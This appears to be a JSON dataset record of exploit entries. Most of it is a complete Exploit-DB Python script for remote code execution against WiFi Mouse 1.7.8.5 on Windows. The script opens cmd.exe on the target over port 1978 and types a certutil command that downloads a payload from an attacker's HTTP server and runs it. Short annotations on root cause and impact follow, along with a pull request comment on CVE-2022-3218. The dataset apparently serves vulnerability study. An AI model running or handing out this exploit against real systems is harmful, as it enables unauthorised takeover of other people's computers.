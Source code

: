 ```
      "content": "# WiFi Mouse 1.7.8.5 - Remote Code Execution\n\n#### EDB-ID:\n\n###### 49601\n\n#### CVE:\n\n###### N/A\n\n---\n\n**EDB Verified:**\n\n#### Author:\n\n###### [H4rk3nz0](/?author=10794)\n\n#### Type:\n\n###### [remote](/?type=remote)\n\n---\n\n#### Platform:\n\n###### [Windows](/?platform=windows)\n\n#### Date:\n\n###### 2021-03-01\n\n---\n\n**Vulnerable App:**\n\n```\n# Exploit Title: WiFi Mouse 1.7.8.5 - Remote Code Execution\n# Date: 25-02-2021\n# Author: H4rk3nz0\n# Vendor Homepage: http://necta.us/\n# Software Link: http://wifimouse.necta.us/#download\n# Version: 1.7.8.5\n# Tested on: Windows Enterprise Build 17763\n\n# Desktop Server software used by mobile app has PIN option which does not to prevent command input.\n# Connection response will be 'needpassword' which is only interpreted by mobile app and prompts for PIN input.\n\n#!/usr/bin/python\n\nfrom socket import socket, AF_INET, SOCK_STREAM\nfrom time import sleep\nimport sys\nimport string\n\ntarget = socket(AF_INET, SOCK_STREAM)\nport = 1978\n\ntry:\n\trhost = sys.argv[1]\n\tlhost = sys.argv[2]\n\tpayload = sys.argv[3]\nexcept:\n\tprint(\"USAGE: python \" + sys.argv[0]+ \" <target-ip> <local-http-server-ip> <payload-name>\")\n\texit()\n\ncharacters={\n\t\"A\":\"41\",\"B\":\"42\",\"C\":\"43\",\"D\":\"44\",\"E\":\"45\",\"F\":\"46\",\"G\":\"47\",\"H\":\"48\",\"I\":\"49\",\"J\":\"4a\",\"K\":\"4b\",\"L\":\"4c\",\"M\":\"4d\",\"N\":\"4e\",\n\t\"O\":\"4f\",\"P\":\"50\",\"Q\":\"51\",\"R\":\"52\",\"S\":\"53\",\"T\":\"54\",\"U\":\"55\",\"V\":\"56\",\"W\":\"57\",\"X\":\"58\",\"Y\":\"59\",\"Z\":\"5a\",\n\t\"a\":\"61\",\"b\":\"62\",\"c\":\"63\",\"d\":\"64\",\"e\":\"65\",\"f\":\"66\",\"g\":\"67\",\"h\":\"68\",\"i\":\"69\",\"j\":\"6a\",\"k\":\"6b\",\"l\":\"6c\",\"m\":\"6d\",\"n\":\"6e\",\n\t\"o\":\"6f\",\"p\":\"70\",\"q\":\"71\",\"r\":\"72\",\"s\":\"73\",\"t\":\"74\",\"u\":\"75\",\"v\":\"76\",\"w\":\"77\",\"x\":\"78\",\"y\":\"79\",\"z\":\"7a\",\n\t\"1\":\"31\",\"2\":\"32\",\"3\":\"33\",\"4\":\"34\",\"5\":\"35\",\"6\":\"36\",\"7\":\"37\",\"8\":\"38\",\"9\":\"39\",\"0\":\"30\",\n\t\" \":\"20\",\"+\":\"2b\",\"=\":\"3d\",\"/\":\"2f\",\"_\":\"5f\",\"<\":\"3c\",\n\t\">\":\"3e\",\"[\":\"5b\",\"]\":\"5d\",\"!\":\"21\",\"@\":\"40\",\"#\":\"23\",\"$\":\"24\",\"%\":\"25\",\"^\":\"5e\",\"&\":\"26\",\"*\":\"2a\",\n\t\"(\":\"28\",\")\":\"29\",\"-\":\"2d\",\"'\":\"27\",'\"':\"22\",\":\":\"3a\",\";\":\"3b\",\"?\":\"3f\",\"`\":\"60\",\"~\":\"7e\",\n\t\"\\\\\":\"5c\",\"|\":\"7c\",\"{\":\"7b\",\"}\":\"7d\",\",\":\"2c\",\".\":\"2e\"}\n\n\ndef openCMD():\n\ttarget.sendto(\"6f70656e66696c65202f432f57696e646f77732f53797374656d33322f636d642e6578650a\".decode(\"hex\"), (rhost,port)) # openfile /C/Windows/System32/cmd.exe\n\ndef SendString(string):\n\tfor char in string:\n\t\ttarget.sendto((\"7574663820\" + characters[char] + \"0a\").decode(\"hex\"),(rhost,port)) # Sends Character hex with packet padding\n\t\tsleep(0.03)\n\ndef SendReturn():\n\ttarget.sendto(\"6b657920203352544e\".decode(\"hex\"),(rhost,port)) # 'key 3RTN' - Similar to 'Remote Mouse' mobile app\n\tsleep(0.5)\n\ndef exploit():\n\tprint(\"[+] 3..2..1..\")\n\tsleep(2)\n\topenCMD()\n\tprint(\"[+] *Super fast hacker typing*\")\n\tsleep(1)\n\tSendString(\"certutil.exe -urlcache -f http://\" + lhost + \"/\" + payload + \" C:\\\\Windows\\\\Temp\\\\\" + payload)\n\tSendReturn()\n\tprint(\"[+] Retrieving payload\")\n\tsleep(3)\n\tSendString(\"C:\\\\Windows\\\\Temp\\\\\" + payload)\n\tSendReturn()\n\tprint(\"[+] Done! Check Your Listener?\")\n\n\ndef main():\n\ttarget.connect((rhost,port))\n\texploit()\n\ttarget.close()\n\texit()\n\nif __name__==\"__main__\":\n\tmain()\n\n```",
      "root_cause": "The application does not properly handle the PIN option, allowing direct command input even when the PIN is set.",
      "vulnerabilities": [
        "Authentication bypass",
        "Remote code execution"
      ],
      "impact": "Remote code execution on the target machine.",
       "attack_vectors": [
        "Network"
      ],
       "attacker_capabilities": "Attacker must be able to connect to the target system's port 1978. The attacker also needs to host the payload on an HTTP server.",
      "additional_info": "This exploit uses `certutil.exe` to download a payload and execute it. The exploit is a python script."
    },
    {
      "CVE": "CVE-2022-3218",
      "content": "This PR adds a new module to exploit an auth bypass to rce in 'wifi mouse'.\n\n@H4rk3nz0 looks like you were the original author (and your twitter is gone), did you ever reach out to the company to responsibly disclose?\n\nThis is a neat exploit as you connect to the server, ask it to open cmd, then type out what you want on the user's screen. its fun to watch shell code :).",
       "root_cause": "Reliance on client-side authentication.",
      "vulnerabilities": [
         "Authentication bypass",
        "Remote code execution"
      ],
```